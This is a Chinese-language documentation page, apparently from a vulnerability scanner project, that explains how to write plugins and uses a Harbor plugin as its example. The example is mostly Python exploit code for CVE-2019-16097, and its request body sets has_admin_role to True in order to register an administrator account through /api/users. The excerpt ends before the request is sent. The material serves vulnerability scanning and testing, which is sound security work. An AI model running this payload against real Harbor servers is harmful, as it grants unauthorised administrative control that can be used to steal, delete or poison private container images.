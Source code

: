 ## 常规插件模板

> 如果漏洞可以执行远程命令的话，需要在常规模板中添加命令执行模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms,ErrorHandling,Proxies,ExploitOutput,Exploit
import json
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor1.7.6之前版本\r\nHarbor1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(Url:str,RandomAgent:str,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

```